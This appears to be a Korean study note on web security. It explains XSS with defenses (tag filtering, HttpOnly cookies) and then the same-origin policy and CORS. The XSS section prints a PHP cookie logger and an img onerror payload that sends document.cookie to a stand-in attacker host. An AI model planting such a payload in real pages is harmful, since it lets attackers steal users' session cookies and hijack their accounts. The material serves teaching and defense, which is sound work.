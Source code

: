 # XSS
    
### 공부해야 하는 이유는?
    
    쿠키와 관련 있는 공격이다. 공부함으로써 더 안전한 쿠키 세션 로그인 방식을 만들 수 있다.
    
### XSS 공격은 무엇이고 어떤 식으로 작동할까?
    
    XSS 공격은 Cross Site Scripting의 약자지만 CSS와 겹쳐서 XSS로 불린다. 해커의 사이트와 사용자가 접속한 사이트를 넘나들면서 공격이 이루어지기 때문에 이렇게 불린다.
    
    예시)
    
    해커의 홈페이지에 Cookie.php라는 파일을 만든다. get 파라미터에 cookie라는 이름의 값을 XSS.txt에 적는 코드이다.
    
     <? fwrite(fopen("XSS.txt","a+"), $_GET['cookie']); ?>
    
    공격할 사이트에 스크립트를 심는다. 게시글이 될 수도 있고 닉네임이 될 수도 있고 여러 방법이 있을 수 있다.
    
    <img src="#" onerror="location.href('http://hack.er/Cookie.php?cookie=' + document.cookie);">
    
    서버는 이 스크립트를 포함하는 페이지를 그대로 응답으로 반환하고 원래는 단순 텍스트였던 것이 자바스크립트의 문법과 맞물리면서 자바스크립트 코드가 실행된다.
    
    코드에 따라 쿠키값이 해커의 홈페이지로 넘어가서 세션 하이재킹이 가능해진다.
    
### 어떻게 방어해야할까?
    1. 서버 입장에서 자바스크립트의 스크립트를 실행할 수 있는 <script>와 같은 태그들을 입력 받을 때와 출력할 때 모두 필터링하여 걸러낸다. 
    2. Javascript에서 쿠키에 접근하지 못하게 쿠키를 HttpOnly로 설정한다.

# CORS
<details>
<summary>CORS란?</summary> 
    
보안상의 이유로 다른 출처와 다른 곳으로의 요청을 통해 받은 정보는 브라우저가 받기를 거부한다. 이것을 SOP(Same Origin Policy)라고 한다.

예를 들어 페이스북의 로그인된 상태에서 특정 웹사이트에 덥속했다고 해보자. 그 사이트에서 전달한 자바스크립트 코드에 페이스북으로 내 정보를 요청하는 코드가 들어있을 경우 내 정보가 고스란히 전달되어 온다. 이는 보안상 문제가 되기 때문에 브라우저에서는 이런 다른 출처의 리소스를 거부한다.

이 때 다른 출처로의 요청이 필요한 경우에 사용하는 것이 CORS 정책이다.

CORS 정책에 따라 브라우저가 서버와 합의를 본 경우 다른 출처 리소스를 받아 볼 수 있다.
</details>